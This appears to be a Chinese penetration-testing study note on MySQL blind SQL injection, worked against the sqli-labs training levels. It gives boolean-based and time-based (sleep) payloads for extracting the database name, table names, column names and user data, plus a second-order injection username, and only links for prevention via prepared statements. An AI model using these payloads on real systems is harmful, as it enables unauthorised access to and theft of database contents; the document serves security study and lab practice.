 ```yaml
---
title: 07-mysql盲注
categories:
- 渗透测试
tags:
- 渗透测试
abbrlink: 5241f069
date: 2020-02-08 15:58:45
---
```




# SQL测试-基于 布尔,延时 盲注

>场景：无回显，并且没有报错和其他显示
>能用布尔就不用延迟

**几个相关函数：**
`regexp`       regexp '^xiaodi[a-z]' 匹配xiaodi及xiaodi...等
`if`       if(条件,5,0) 条件成立 返回5 反之 返回0
`sleep`    sleep(5) SQL语句延时执行5秒
`mid`    mid(a,b,c)从位置 b 开始， 截取 a 字符串的 c 位
`substr`   substr(a,b,c)从 b 位置开始， 截取字符串 a 的 c 长度
`left`    left(database(),1)，database()显示数据库名称， left(a,b)从左侧截取 a 的前 b 位
`length`    length(database())=8，判断数据库database()名的长度
`ord`=`ascii`     ascii(x)=101，判断x的ascii码是否等于101，即email中的字母e
`IFNULL()`  函数用于判断第一个表达式是否为 NULL，如果为 NULL 则返回第二个参数的值，如果不为 NULL 则返回第一个参数的值。
`CAST()`和`CONVERT()`函数可用来获取一个类型的值，并产生另一个类型的值。两者具体的语法如下：`CAST(value as type);`        `CONVERT(value, type);`

#### 基于布尔(逻辑)盲注

Less-5
用burp批量跑
**0x01 获取`数据库`名操作Payload：**     left()
获取数据库名长度值
`?id=1' and length(database())=8 %23`

获取数据库名第一位值
`?id=1' and left(database(),1)='s' %23`     等于
`?id=1' and left(database(),1)>'a' %23`     大于

获取数据库名第二位值
`?id=1' and left(database(),2) > 'sa' %23`
`?id=1' and left(database(),2) = 'se' %23`



**0x02 获取`表名`操作Payload：**     ascii(substr())
获取表名第一个第一位的值（下面这个是获取表名中第一个表，的第二位的值）
`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101 %23`
获取表名第一个第二位的值
`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=101 %23`
获取表名第二个第一位的值
`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=101 %23`

用burp批量跑(最后一种模式，设置两个变量  limit $0, 1), $1,1))=115)   



**0x03 获取`列名`操作Payload：**    regxp
获取列名regexp 查询users表第一个列名是否有us...列名
`?id=1' and 1=(select 1 from information_schema.columns where table_name='users' and table_name regexp '^us[a-z]' limit 0,1)--+`



**0x04 获取`数据`操作Payload：**    ord(mid())
获取数据 security.users表中username列名的第一个第一位
`?id=1' and ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))=68--+`
(获取username中的第一行的第一个字符的ascii，与68进行比较)




#### 基于延时盲注

**0x01 获取数据库名操作Payload：**     if(条件，成立返回值，不成立的返回值)
获取数据库名第一个第一位
`?id=1' and if(ascii(substr(database(),1,1))=115,sleep(5),1)--+`
可以把sleep放外面：and sleep(if 'x'='yx, 5, 0)

**0x02 获取表名操作Payload：**
获取列名第一个第一位
`?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100,sleep(5),1)--+`

>后续参考：https://www.cnblogs.com/xishaonian/p/6113965.html

-----



## SQL二次注入测试

**案例测试**：
less-24 及实际举例
25-30关卡好多是二次注入

> 自己练习

**应用范围：**
我们注册一个用户后，然后进入用户中心，对应的url地址： xxx.php?user=xiaodi
如果把注册的用户名改为: `xx' union select 1,2,3 -- `  
总之: 将注入语句让web写入到数据库中，web在调用数据库中数据查询时，就触发了...



###### 原理

<img src="https://image.geoer.cn/%E4%BA%8C%E6%AC%A1%E6%B3%A8%E5%85%A5.png"></img>



#### mybatis以及预编译如何防止SQL注入


>参考：https://www.cnblogs.com/haojun/p/10682407.html https://www.cnblogs.com/yangzailu/p/11381765.html